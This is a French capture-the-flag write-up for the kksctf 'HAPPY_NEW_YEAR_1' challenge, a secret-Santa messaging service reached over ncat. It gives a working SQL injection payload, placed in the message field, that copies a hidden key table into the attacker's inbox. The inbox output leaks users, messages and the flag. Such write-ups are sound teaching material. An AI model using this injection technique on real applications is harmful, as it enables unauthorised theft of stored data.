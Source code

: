 # HAPPY_NEW_YEAR_1
```
$> ncat tasks.kksctf.ru 30040
Hi, this is secret Santa 🎅
You can send a gift to a stranger and make him a pleasant surprise for the new year 🎊.

====================
[1] Sign up
[2] Sign in
[3] Exit

Option> 1
Enter username: renecoty
Enter password: france4ever
You have successfully registered 😉
```
On se crée un compte et on envoie un message
```
Logged in!

====================
[1] Send a secret message, secret Santa will deliver it 🎅🎁🎅🎁
[2] Inbox
[3] Show participants
[4] Exit

Option> 1
```
On fait notre petite injection sql des familles
```
====================
Yohohoho! Who will be honored with your letter?
Enter username: a
What do you wish him in the coming year?
Input message: "); INSERT INTO messages (to_user, letter) VALUES ("renecoty",(SELECT GROUP_CONCAT(key,",") FROM key));--
Congratulations, your letter has already been delivered!
Happy new year to you! Yohohoho🎅
```
l'injection sql envoie dans notre inbox la key de la table key :
`"); INSERT INTO messages (to_user, letter) VALUES ("renecoty",(SELECT GROUP_CONCAT(key,",") FROM key));--`
et on va voir dans l'inbox :)
```
====================
[1] Send a secret message, secret Santa will deliver it 🎅🎁🎅🎁
[2] Inbox
[3] Show participants
[4] Exit

Option> 2

====================
Yohohoho!
Your inbox:
Letter: 2
Letter: s
Letter: jjmab,lynx,lunx,Anna,Snowman,a,kks_santa,Olof,1237,Elsa,111111111111111111111111111111111111111111111111,test,renecoty,Olof,lynx,a,a,a,renecoty,a,a
Letter: ,be happy,ww,be happy,be happy,%s,s,be happy,asd,hshs,s,123,2,2,1,a,,,s,,,jjmab,lynx,lunx,Anna,Snowman,a,kks_santa,Olof,1237,Elsa,111111111111111111111111111111111111111111111111,test,renecoty,Olof,lynx,a,a,a,renecoty,a,a,
Letter: kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}
```
ici j'avais déjà leak les personnes à qui sont adressé les messages et les messages en eux meme
flag : `kks{h1_54n74_wh47_4r3_y0ur_fur7h3r_1n57ruc710n5}`
GG ! Enfin un qui ne fait pas partie de ceux qui ne sont rien
<:macron:784920050544017429>

